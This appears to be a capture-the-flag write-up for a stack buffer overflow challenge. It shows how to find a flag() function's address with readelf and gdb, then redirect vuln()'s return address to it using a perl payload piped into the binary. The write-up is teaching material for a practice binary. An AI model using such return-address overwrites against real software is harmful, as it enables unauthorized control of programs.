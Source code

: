 	Solution 
By looking at the source code, we can see there is a function called flag(). But there is no way from the main() function to go to flag() function, so the only way to get there is overwrite the return address of vuln() function.

Get the address of flag() function to overwrite:
	Two ways of doing it:

	#1: Using readelf to display the information of the executable file:
		readelf -a vuln | grep flag
![image](https://user-images.githubusercontent.com/60718485/75099666-4934ba80-5592-11ea-890b-f89fd8268703.png)
		And we can see in the second column is the beginning address of flag() function
	
	#2: Using debugger like gdb:
		gdb -q vuln
		disassemble flag
	![image](https://user-images.githubusercontent.com/60718485/75099812-1390d100-5594-11ea-85ef-9e207f43d66c.png)
	
![image](https://user-images.githubusercontent.com/60718485/75099802-db898e00-5593-11ea-9787-be1930574730.png)

And we will see the first address of the first instruction

Then we will overwrite it by using "perl" command

	perl -e 'print "\xe6\x85\x04\x08"x20' | ./vuln

The command will overwrite the return address of vuln() function and forward it to the address of flag() function.

![image](https://user-images.githubusercontent.com/60718485/75099863-9fa2f880-5594-11ea-8796-c7dc6c04f047.png)
